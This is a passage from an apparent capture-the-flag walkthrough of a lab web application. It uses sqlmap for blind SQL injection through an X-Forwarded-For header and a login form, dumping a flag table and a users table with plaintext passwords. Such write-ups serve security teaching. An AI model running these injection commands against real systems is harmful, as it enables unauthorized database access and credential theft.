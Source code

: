 ![image-10](https://github.com/user-attachments/assets/783ffe39-1c5d-4240-931f-aac8fe36fb28)

The sqhell_1 schema is then enumerated to identify its tables.
``` BASH
sqlmap -u "http://$ip/terms-and-conditions" --headers="X-Forwarded-For: 10.10.199.236*" --dbms=mysql --batch --technique=T -D sqhell_1 --tables
``` 

Data is extracted from the flag table within the sqhell_1 database.

![image-11](https://github.com/user-attachments/assets/4f4f28c0-64a8-4e6c-aa67-4aa08abe7cce)

``` BASH
sqlmap -u "http://$ip/terms-and-conditions" --headers="X-Forwarded-For: 10.10.199.236*" --dbms=mysql --batch --technique=T -D sqhell_1 -T flag --dump
``` 

![image-12](https://github.com/user-attachments/assets/b11edfd1-11a6-4c7a-b9ef-4ed8b15cdd24)

<span>&nbsp;</span>

The application also includes login and registration functionality. The registration page is checked to verify whether an admin user already exists.

![image-17](https://github.com/user-attachments/assets/68b6754a-5be6-4ae5-b214-7db8c39e2312)

This confirms that an admin account is already present in the database. Catch POST request in Burp:  

![image-18](https://github.com/user-attachments/assets/b5ba34bf-685e-4be9-82c5-3d61fbdd19ad)

The intercepted login request is saved to a file and used with sqlmap to test the login form for SQL injection.
```BASH
sqlmap -r request.txt --dbms=mysql --batch --level=3 --risk=3
```

![image-19](https://github.com/user-attachments/assets/90e33ad9-3196-4b57-b269-b3662e27f0c7)

The login form is found to be vulnerable to multiple forms of blind SQL injection, including boolean-based, time-based, and stacked queries.

Check for db name:
```BASH
sqlmap -r request.txt -p username --dbms=mysql --batch --current-db
```  

![image-20](https://github.com/user-attachments/assets/c5f10744-8060-40d6-81ba-c42bb2d934a0)

![image-21](https://github.com/user-attachments/assets/23f56076-9e7c-4cec-9b6f-0e6d8f583a88)

The extracted data reveals a users table containing valid user credentials, including plaintext passwords. 
```BASH
sqlmap -r request.txt -p username --dbms=mysql --batch -D sqhell_2 -T users --dump
```
